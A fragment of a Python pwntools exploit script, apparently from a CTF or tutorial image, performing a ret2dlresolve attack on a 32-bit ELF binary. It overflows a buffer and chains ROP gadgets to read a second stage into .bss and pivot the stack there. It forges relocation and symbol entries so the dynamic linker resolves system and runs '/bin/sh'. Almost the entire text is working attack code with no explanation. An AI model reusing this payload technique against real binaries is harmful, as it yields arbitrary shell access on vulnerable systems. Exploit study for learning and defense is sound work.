 ```python
addr_got_read   = elf.got['read']

log.info('.dynsym  : ' + hex(addr_dynsym))
log.info('.dynstr  : ' + hex(addr_dynstr))
log.info('.rel.plt : ' + hex(addr_relplt))
log.info('.plt     : ' + hex(addr_plt))
log.info('.bss     : ' + hex(addr_bss))
log.info('read@plt : ' + hex(addr_plt_read))
log.info('read@got : ' + hex(addr_got_read))

addr_pop3 = 0x80484e9
addr_pop_ebp = 0x080484eb
addr_leave_ret = 0x08048458

stack_size = 0x300
base_stage = addr_bss + stack_size

# read(0,base_stage,100)
buf1 = "A"*62
buf1 += p32(addr_plt_read)
buf1 += p32(addr_pop3)
buf1 += p32(0)
buf1 += p32(base_stage)
buf1 += p32(100)
buf1 += p32(addr_pop_ebp)
buf1 += p32(base_stage)
buf1 += p32(addr_leave_ret)

addr_fake_reloc = base_stage + 20
addr_fake_sym = addr_fake_reloc + 8
addr_fake_symstr = addr_fake_sym + 16
addr_fake_cmd = addr_fake_symstr + 7

fake_reloc_offset = addr_fake_reloc - addr_relplt 
fake_r_info = ((addr_fake_sym - addr_dynsym)*16) & ~0xFF  # Fake ELF32_R_SYM
fake_r_info = fake_r_info | 0x7       # Fake ELF32_R_TYPE 
fake_st_name = addr_fake_symstr - addr_dynstr


log.info('fake_reloc_offset : ' + hex(fake_reloc_offset))
log.info('fake_r_info       : ' + hex(fake_r_info))
log.info('fake_st_name      : ' + hex(fake_st_name))

# .bss
# _dl_runtime_resolve(struct link_map *l, fake_reloc_offset)
buf2 = 'AAAA'
buf2 += p32(addr_plt)
buf2 += p32(fake_reloc_offset)
buf2 += 'BBBB'
# Argument of the function
buf2 += p32(addr_fake_cmd)
#Fake Elf32_Rel
buf2 += p32(addr_got_read)
buf2 += p32(fake_r_info)
#Fake Elf32_Sym
buf2 += p32(fake_st_name)
buf2 += p32(0)
buf2 += p32(0)
buf2 += p32(0x12)
#String "system"
buf2 += "system\x00"
#String "/bin/sh"
buf2 += "/bin/sh\x00"
```